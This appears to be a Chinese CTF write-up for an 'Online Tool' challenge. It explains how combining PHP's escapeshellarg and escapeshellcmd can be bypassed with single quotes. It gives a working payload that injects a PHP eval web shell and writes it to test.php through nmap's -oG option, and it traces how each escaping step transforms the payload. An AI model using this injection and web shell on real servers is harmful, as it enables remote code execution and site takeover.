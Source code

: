 ## 0x01 Online Tool

通过nmap写入文件指令-oG进行写马

涉及到`escapeshellarg`和`escapeshellcmd`联合使用的绕过

`escapeshellarg`函数：

对单引号转义，并将其他部分用单引号括起来

`escapeshellcmd`函数：

`escapeshellcmd()` 对字符串中可能会欺骗 `shell` 命令执行任意命令的字符进行转义。 此函数保证用户输入的数据在传送到 `exec()` 或 `system()` 函数，或者 执行操作符 之前进行转义。

反斜线`\`会在以下字符之前插入： `&#;|*?~<>^()[]{}$\` ,`\x0A` 和 `\xFF`。 `'` 和 `"` 仅在不配对儿的时候被转义。 在 Windows 平台上，所有这些字符以及 `%` 和 `!` 字符都会被空格代替。

对于该题中`escapeshellarg()`和`escapeshellcmd()`联合使用的情况，我们可以采用单引号进行绕过

Payload：

```
/?host=' <?php eval($_POST[shell]);?> -oG test.php '
```

经过`escapeshellarg()`函数后该payload会变为

```
\' '<?php eval($_POST[shell]);?> -oG test.php \''
```

经过`escapeshellcmd()`函数后该payload会变为

```
\\' '\<\?php eval\(\$_POST\[shell\]\)\;\?\> -oG test.php \\''
```

即在exec命令时进行执行，将马写入test.php中



